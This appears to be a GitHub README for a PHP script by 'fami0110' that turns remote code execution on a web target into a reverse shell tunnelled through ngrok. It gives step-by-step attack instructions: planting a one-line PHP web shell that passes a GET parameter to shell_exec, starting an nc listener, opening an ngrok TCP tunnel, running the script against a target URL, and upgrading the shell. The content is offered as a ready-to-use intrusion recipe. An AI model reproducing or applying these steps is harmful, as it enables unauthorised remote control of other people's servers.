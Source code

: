 ```
_____   _____ ______   _          _____             _____ _          _ _    
|  __ \ / ____|  ____| | |        |  __ \           / ____| |        | | |  
| |__) | |    | |__    | |_ ___   | |__) |_____   _| (___ | |__   ___| | |  
|  _  /| |    |  __|   | __/ _ \  |  _  // _ \ \ / /\___ \| '_ \ / _ \ | |  
| | \ \| |____| |____  | || (_) | | | \ \  __/\ V / ____) | | | |  __/ | |  
|_|  \_\______|______|  \__\___/  |_|  \_\___| \_/ |_____/|_| |_|\___|_|_|
by fami0110
```

> **Usage:** `php httpRceToNgrokReverse.php [-u URL] [-q PARAM] [-p PORT] [-h] [-D]`

## How To Get the Shell
To get the reverse shell, you must following this steps before run this script :

1. Inject PHP RCE command into the target. Make sure the RCE is working properly.
> **Example:**  `if (isset($_GET['cmd'])) shell_exec($_GET['cmd']);`

2. Make the tcp listener in your computer using nc. (This will be your reverse shell)
> **Example:**  `nc -lvnp 4444`

3. Make sure that you already installed ngrok, so your computer can reach by the target publicly.
> **Install:**  [https://ngrok.com/download](https://ngrok.com/download)

4. Make tcp tunnel connection into the listen port that you've already set. 
> **Example:**  `ngrok tcp 4444`

5. Run this program.
> **Example:**  `php httpRceToNgrokReverse.php -u https://target.com -q cmd -p 4444`

6. (optional) To upgrade the shell, you can run this command.
> **Command:**  `SHELL=/bin/bash script -q /dev/null`

